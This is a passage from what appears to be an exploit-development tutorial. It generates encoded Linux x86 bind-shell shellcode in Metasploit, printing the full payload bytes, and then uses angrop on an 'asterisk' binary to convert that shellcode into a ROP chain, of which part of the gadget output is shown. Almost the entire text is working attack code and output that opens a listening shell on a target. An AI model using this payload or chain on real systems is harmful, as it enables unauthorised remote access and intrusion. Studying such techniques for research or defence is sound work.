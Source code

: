 ```
msf > use payload/linux/x86/shell_bind_tcp
msf payload(shell_bind_tcp) > options

Module options (payload/linux/x86/shell_bind_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST                   no        The target address

msf payload(shell_bind_tcp) > generate -b '\x00\xff\x09\x0a\x0b\x0c\x0d\x20'
# linux/x86/shell_bind_tcp - 105 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, PrependFork=false,
# PrependSetresuid=false, PrependSetreuid=false,
# PrependSetuid=false, PrependSetresgid=false,
# PrependSetregid=false, PrependSetgid=false,
# PrependChrootBreak=false, AppendExit=false,
# InitialAutoRunScript=, AutoRunScript=
buf =
"\xd9\xc1\xbd\xa6\xe2\xd0\x3e\xd9\x74\x24\xf4\x5f\x2b\xc9" +
"\xb1\x14\x83\xef\xfc\x31\x6f\x15\x03\x6f\x15\x44\x17\xe1" +
"\xe5\x7f\x3b\x51\x59\x2c\xd6\x54\xd4\x33\x96\x3f\x2b\x33" +
"\x8c\xe1\xe1\x5b\x31\x1e\x17\xc7\x5f\x0e\x46\xa7\x16\xcf" +
"\x02\x21\x71\xdd\x53\x24\xc0\xd9\xe0\x32\x73\x87\xcb\xba" +
"\x30\xf8\xb2\x77\x36\x6b\x63\xed\x08\xd4\x59\x71\x3f\x9d" +
"\x99\x19\xef\x72\x29\xb1\x87\xa3\xaf\x28\x36\x35\xcc\xfa" +
"\x95\xcc\xf2\x4a\x12\x02\x74"
```

### shellcode to rop

Convert the shellcode to a rop sequence with angrop:

```
>>> import angr, angrop
>>> p = angr.Project("./asterisk")
>>> rop = p.analyses.ROP()
>>> rop.find_gadgets()
>>> shellcode = "\xd9\xc1\xbd\xa6\xe2\xd0\x3e\xd9\x74\x24\xf4\x5f\x2b\xc9" + "\xb1\x14\x83\xef\xfc\x31\x6f\x15\x03\x6f\x15\x44\x17\xe1" + "\xe5\x7f\x3b\x51\x59\x2c\xd6\x54\xd4\x33\x96\x3f\x2b\x33" + "\x8c\xe1\xe1\x5b\x31\x1e\x17\xc7\x5f\x0e\x46\xa7\x16\xcf" + "\x02\x21\x71\xdd\x53\x24\xc0\xd9\xe0\x32\x73\x87\xcb\xba" + "\x30\xf8\xb2\x77\x36\x6b\x63\xed\x08\xd4\x59\x71\x3f\x9d" + "\x99\x19\xef\x72\x29\xb1\x87\xa3\xaf\x28\x36\x35\xcc\xfa" + "\x95\xcc\xf2\x4a\x12\x02\x74"
>>> chain = rop.write_to_mem(0x815e324, shellcode)

>>> chain.print_payload_code()
chain = ""
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e324)
chain += p32(0xa6bdc1d9)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e328)
chain += p32(0xd93ed0e2)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e32c)
chain += p32(0x5ff42474)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
```